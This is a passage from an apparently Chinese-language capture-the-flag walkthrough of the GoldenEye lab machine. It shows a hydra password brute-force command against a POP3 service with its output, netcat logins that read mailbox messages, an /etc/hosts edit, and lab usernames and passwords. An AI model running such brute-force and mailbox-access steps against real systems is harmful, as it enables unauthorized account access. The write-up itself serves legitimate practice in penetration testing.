 ```shell
retr 3+OK 921 octetsReturn-Path: <alec@janus.boss>X-Original-To: borisDelivered-To: boris@ubuntuReceived: from janus (localhost [127.0.0.1])  by ubuntu (Postfix) with ESMTP id 4B9F4454B1  for <boris>; Wed, 22 Apr 1995 19:51:48 -0700 (PDT)Message-Id: <20180425025235.4B9F4454B1@ubuntu>Date: Wed, 22 Apr 1995 19:51:48 -0700 (PDT)From: alec@janus.boss
Boris,
Your cooperation with our syndicate will pay off big. Attached are the final access codes for GoldenEye. Place them in a hidden file within the root directory of this server then remove from this email. There can only be one set of these acces codes, and we need to secure them for the final execution. If they are retrieved and captured our plan will crash and burn!
Once Xenia gets access to the training site and becomes familiar with the GoldenEye Terminal codes we will push to our final stages....
PS - Keep security tight or we will be compromised.
.
```

分别对两个账号进行登录后，查看信息。可以看到如下信息

![图片](https://mmbiz.qpic.cn/sz_mmbiz_png/yt0TxdOI0SzY7CF1mBpm6Nn0JMPB1C7DZvslhneibr5XuK97JDfBZiczCVdV8aHZnTsqBnFiaNgl43630PtcS3tTw/640?wx_fmt=png&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1)

username: xenia

password: RCP90rulez!

根据信息：修改主机的/etc/hosts文件



```
192.168.1.5  severnaya-station.com
```

打开域名 severnaya-station.com/gnocertdir             

![图片](https://mmbiz.qpic.cn/sz_mmbiz_png/yt0TxdOI0SzY7CF1mBpm6Nn0JMPB1C7DAIO9XSnEkVxM45T0KdKn3oK3BNicibbpwIyZc0kVCp6Q8nZbbPgh2ic7Q/640?wx_fmt=png&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1)





```
┌──(root㉿kali)-[~/oscp/goldeneye]└─# hydra -L user2.txt -P /usr/share/wordlists/fasttrack.txt pop3://192.168.1.5 -s 55007Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-02-06 19:53:17[INFO] several providers have implemented cracking protection, check with a small wordlist first - and stay legal![DATA] max 16 tasks per 1 server, overall 16 tasks, 222 login tries (l:1/p:222), ~14 tries per task[DATA] attacking pop3://192.168.1.5:55007/[STATUS] 80.00 tries/min, 80 tries in 00:01h, 142 to do in 00:02h, 16 active[STATUS] 64.00 tries/min, 128 tries in 00:02h, 94 to do in 00:02h, 16 active[55007][pop3] host: 192.168.1.5   login: doak   password: goat1 of 1 target successfully completed, 1 valid password foundHydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-02-06 19:55:39
```

user:doak. passwod:goat

```
┌──(root㉿kali)-[~/oscp/goldeneye]└─# nc 192.168.1.5 55007+OK GoldenEye POP3 Electronic-Mail System
user doak+OKpass goat+OK Logged in.list+OK 1 messages:1 606.
retr 1+OK 606 octetsReturn-Path: <doak@ubuntu>X-Original-To: doakDelivered-To: doak@ubuntuReceived: from doak (localhost [127.0.0.1])  by ubuntu (Postfix) with SMTP id 97DC24549D  for <doak>; Tue, 30 Apr 1995 20:47:24 -0700 (PDT)Message-Id: <20180425034731.97DC24549D@ubuntu>Date: Tue, 30 Apr 1995 20:47:24 -0700 (PDT)From: doak@ubuntu
James,If you're reading this, congrats you've gotten this far. You know how tradecraft works right?
Because I don't. Go to our training site and login to my account....dig until you can exfiltrate further information......
username: dr_doakpassword: 4England!
```
